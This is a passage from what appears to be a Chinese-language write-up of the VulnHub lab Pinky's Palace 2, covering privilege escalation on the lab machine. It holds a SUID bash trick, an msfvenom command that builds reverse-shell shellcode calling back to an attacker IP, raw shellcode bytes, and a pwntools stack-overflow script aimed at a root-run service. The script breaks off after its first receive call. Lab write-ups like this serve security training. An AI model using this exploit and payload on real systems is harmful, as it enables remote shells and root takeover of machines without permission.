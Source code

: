 ```
cp /bin/bash /tmp/tmp;chmod ugo+x /tmp/tmp;chmod u+s /tmp/tmp
```

```shell
pinky@Pinkys-Palace:/tmp$ ./tmp -p
./tmp -p
tmp-4.4$ id
id
uid=1000(pinky) gid=1000(pinky) euid=1001(demon) groups=1000(pinky),1002(stefano)
```

查找root的进程

```shell
tmp-4.4$ ps -aux | grep root
root        451  0.0  0.0   4040   992 ?        Ss   20:39   0:00 /daemon/panel
```

利用root权限运行的panel程序（ELF 64-bit）栈溢出漏洞进行提权

### shellcode构造、生成

```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.27.3 LPORT=3344 -b '\x00' -f python -o shellcode
```

```shell
──(root㉿kali)-[~/vulnhub/Pinkys-Palace2]
└─# cat shellcode                                      
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x4b\xda\x32\x32\xb8"
buf += b"\xe2\x1c\x0a\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x21\xf3\x6a\xab\xd2\xe0\x43\x60\x4a"
buf += b"\x84\x3d\x37\xf0\x75\x54\xb3\x49\xda\x3f\x22\x78"
buf += b"\x4a\x07\x09\x1a\x92\xbb\xd4\xd2\xf2\x46\x60\x61"
buf += b"\x82\x3d\x37\xd2\xe1\x42\x42\xb4\x14\x58\x13\xe0"
buf += b"\xed\x19\x7f\xbd\xb0\x09\x6a\x21\xaa\xa7\x25\x29"
buf += b"\xb3\x5c\x1d\xcb\x8a\x1c\x59\x03\x53\xd5\x60\xef"
buf += b"\xaa\x95\xec\x44\xdf\x32\x32\xb8\xe2\x1c\x0a"
```

最后结果：拼接 [\x90] 和 [\xfb\x0c\x40\x00]

python脚本

```shell
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xea\xc6\x79\x25\x55"
buf += b"\x6f\x84\x50\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x80\xef\x21\xbc\x3f\x6d\xdb\x3a\xeb"
buf += b"\x98\x76\x20\x1d\xf8\xcc\xe9\xe8\xc6\x74\x35\x95"
buf += b"\xc7\x9f\x53\xbb\x8e\xf0\xc3\x3f\x7f\xde\x3a\xc0"
buf += b"\x9e\x76\x20\x3f\x6c\xda\x18\x15\x08\x13\x04\x0d"
buf += b"\x60\x81\x25\x1c\xac\x42\x7d\xcc\x27\x3f\x7f\x88"
buf += b"\xaf\x17\x0a\x26\x07\x84\x03\xa2\x4f\x9e\x77\x02"
buf += b"\x27\x0d\xb6\xe5\xc3\x79\x25\x55\x6f\x84\x50\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("192.168.27.9", 31337)
r.recv()
```